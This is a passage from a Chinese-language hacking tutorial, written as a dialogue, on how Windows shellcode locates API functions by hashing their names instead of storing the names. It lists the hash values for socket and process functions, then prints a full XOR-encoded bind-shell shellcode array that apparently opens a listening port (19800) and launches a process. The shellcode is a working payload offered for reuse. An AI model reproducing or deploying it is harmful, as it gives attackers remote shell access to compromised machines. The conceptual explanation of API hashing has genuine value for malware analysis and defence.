 其数学表述为： h = H(M) 。其中，‘H( )’表示单向散列函数；‘M’表示任意长度明文；‘h’表示固定长度散列值。‘H()’第一要满足单向性，第二是抗冲突性，第三是映射分布均匀性和差分分布均匀性，而 MD5 和 SHA1 可以说是目前应用最广泛的 Hash 算法。

“我们在查找函数名时，不必用真正的函数名来比较，可以设计一个 HASH，只要保证所有函数的 HASH 值不同，那么我们就可用 HASH 值来代替函数名进行查找。”

“哦！使用 HASH 值比用名称有什么好处呢？”PLMM 问道。

“HASH 值是定长的，我们可把 HASH 值放在一个如 EAX 寄存器中，直接进行比较，不用考虑函数名称的长度不同了。”

“哦，是这样啊！”

“好，我们再看一个通过 HASH 法查找所有函数地址再调用的例子。下面是一个别人设计的公式：”

字符[0]循环右移 13 位＋字符[1]) 循环右移 13 位……+最后一个字符

“通过这个 HASH 公式，可得到一些函数名的 HASH 值，如下：”

LoadLibraryA 的 HASH 值是 EC0E4E8E

CreateProcessA 的 HASH 值是 16B3FE72

WSAStartup 的 HASH 值是 3BFCEDCB

WSASocketA 的 HASH 值是 ADF509D9

bind 的 HASH 值是 C7701AA4

listen 的 HASH 值是 E92EADA4

accept 的 HASH 值是 498649E5

closesocket 的 HASH 值是 79C679E7

“根据这种思路，我们得到 BinduseHASH.cpp（光盘有收录）。”

```
unsigned char jeno_bindport19800_sc[] =
    "\xEB\x10\x5B\x4B\x33\xC9\x66\xB9\xd9\x01\x80\x34\x0B\x99\xE2\xFA"
    "\xEB\x05\xE8\xEB\xFF\xFF\xFF\x18\x75\x19\x99\x99\x99\x12\x6D\x71"
    "\xD5\x98\x99\x99\x10\x9F\x66\xAF\xF1\x17\xD7\x97\x75\x71\xFF\x98"
    "\x99\x99\x10\xDF\x91\x66\xAF\xF1\x34\x40\x9C\x57\x71\xCE\x98\x99"
    "\x99\x10\xDF\x95\xF1\xF5\xF5\x99\x99\xF1\xAA\xAB\xB7\xFD\xF1\xEE"
    "\xEA\xAB\xC6\xCD\x66\xCF\x91\x10\xDF\x9D\x66\xAF\xF1\xEB\x67\x2A"
    "\x8F\x71\xAB\x98\x99\x99\x10\xDF\x89\x66\xAF\xF1\xE7\x41\x7B\xEA"
    "\x71\xBA\x98\x99\x99\x10\xDF\x8D\x66\xEF\x9D\xF1\x52\x74\x65\xA2"
    "\x71\x8A\x98\x99\x99\x10\xDF\x81\x66\xEF\x9D\xF1\x40\x90\x6C\x34"
    "\x71\x9A\x98\x99\x99\x10\xDF\x85\x66\xEF\x9D\xF1\x3D\x83\xE9\x5E"
    "\x71\x6A\x99\x99\x99\x10\xDF\xB9\x66\xEF\x9D\xF1\x3D\x34\xB7\x70"
    "\x71\x7A\x99\x99\x99\x10\xDF\xBD\x66\xEF\x9D\xF1\x7C\xD0\x1F\xD0"
    "\x71\x4A\x99\x99\x99\x10\xDF\xB1\x66\xEF\x9D\xF1\x7E\xE0\x5F\xE0"
    "\x71\x5A\x99\x99\x99\x10\xDF\xB5\xAA\x66\x18\x75\x09\x98\x99\x99"
    "\xCD\xF1\x98\x98\x99\x99\x66\xCF\x81\xC9\xC9\xC9\xC9\xD9\xC9\xD9"
    "\xC9\x66\xCF\x85\x12\x41\xCE\xCE\xF1\x9B\x99\xd4\xc1\x12\x55\xF3"
    "\x8F\xC8\xCA\x66\xCF\xB9\xCE\xCA\x66\xCF\xBD\xCE\xC8\xCA\x66\xCF"
    "\xB1\x12\x49\xF1\xFC\xE1\xFC\x99\xF1\xFA\xF4\xFD\xB7\x10\xFF\xA9"
    "\x1A\x75\xCD\x14\xA5\xBD\xAA\x59\xAA\x50\x1A\x58\x8C\x32\x7B\x64"
    "\x5F\xDD\xBD\x89\xDD\x67\xDD\xBD\xA5\x67\xDD\xBD\xA4\x10\xCD\xBD"
    "\xD1\x10\xCD\xBD\xD5\x10\xCD\xBD\xC9\x14\xDD\xBD\x89\xCD\xC9\xC8"
    "\xC8\xC8\xD8\xC8\xD0\xC8\xC8\x66\xEF\xA9\xC8\x66\xCF\x89\x12\x55"
    "\xF3\x66\x66\xA8\x66\xCF\x95\x12\x51\xCE\x66\xCF\xB5\x66\xCF\x8D"
    "\xCC\xCF\xFD\x38\xA9\x99\x99\x99\x1C\x59\xE1\x95\x12\xD9\x95\x12"
    "\xE9\x85\x34\x12\xF1\x91\x72\x90\x12\xD9\xAD\x12\x31\x21\x99\x99"
    "\x99\x12\x5C\xC7\xC4\x5B\x9D\x99\xCA\xCC\xCF\xCE\x12\xF5\xBD\x81"
    "\x12\xDC\xA5\x12\xCD\x9C\xE1\x9A\x4C\x12\xD3\x81\x12\xC3\xB9\x9A"
    "\x44\x7A\xAB\xD0\x12\xAD\x12\x9A\x6C\xAA\x66\x65\xAA\x59\x35\xA3"
    "\x5D\xED\x9E\x58\x56\x94\x9A\x61\x72\x6B\xA2\xE5\xBD\x8D\xEC\x78"
    "\x12\xC3\xBD\x9A\x44\xFF\x12\x95\xD2\x12\xC3\x85\x9A\x44\x12\x9D"
    "\x12\x9A\x5C\x72\x9B\xAA\x59\x12\x4C\xC6\xC7\xC4\xC2\x5B\x9D\x99"; 
```
